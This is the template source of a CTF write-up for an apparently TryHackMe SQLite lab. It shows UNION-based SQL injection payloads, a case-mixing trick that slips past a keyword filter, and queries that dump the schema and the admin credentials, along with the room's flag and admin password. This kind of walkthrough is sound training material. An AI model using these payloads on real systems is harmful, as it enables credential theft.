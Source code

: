 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Exploitation", "exploitation")}}

{{text("In this challange we don't have to do any port scanning, since the room tells us to connect directly over port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>1337</code>.")}}

{{image("../../static/writeups/lightroom/images/000001.jpg")}}

{{text("We get connected to a database, and the application asks for our username. Room's description told us <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>smokey</code> is a valid user, so we will try that.")}}

{{image("../../static/writeups/lightroom/images/000002.jpg")}}

{{text("Application returns a password for the user we entered. We can deduce that if we get the username of an admin, we will be able to receive his password as well.")}}

{{text("Firstly, let's try to find a table that contains the list of usernames in the database.")}}

{{text("We can try to accomplish that using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>UNION</code> operator, which combines the results of two or more <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SELECT</code> queries.")}}

{{text("Right now, the query probably looks like this <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SELECT password FROM users WHERE username = '{user_input}'</code>, we will modify it by  adding another <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SELECT</code> statement to retrieve different tables that are in the database.")}}

{{text("But before that, we should determinate which DBMS is used, so we know which payload to use.")}}

{{console("\' UNION SELECT sqlite_version()'", "Ahh there is a word in there I don't like :(")}}

{{text("Seems like there is some kind of filter in place preventing us from using this query. We can try to get around it using capital letters.")}}

{{console("\' UNioN SEleCT sqlite_version()'", "Password: 3.31.1")}}

{{text("Our query worked successfully and now we know the database is a SQLite Database version 3.31.1.")}}

{{text("In a helpful GitHub repository, we can find all kinds of different SQL injections for that database.")}}

{{link("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration", "../../static/writeups/images/github.jpg", "PayloadsAllTheThings/SQL Injection
/SQLite Injection.md")}}

{{text("Now we can extract tables from our database.")}}

{{console("' UNioN SelEct GROUP_CONCAT(sql) from sqlite_master'", "Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)

")}}

{{text("Looks like there is a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admintable</code> and a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>usertable</code>.")}}

{{text("Using another query, we extract a list of the administrators.")}}

{{console("' UniOn SelEct GROUP_CONCAT(username) FROM admintable'", "Password: TryHackMeAdmin,flag")}}

{{text("And now their passwords.")}}

{{console("' UnIoN SeLeCT GROUP_CONCAT(password) from admintable'", "Password: mamZtAuMlrsEy5bp6q17,THM{SQLit3_InJ3cTion_is_SimplE_nO?}")}}

{{script()}}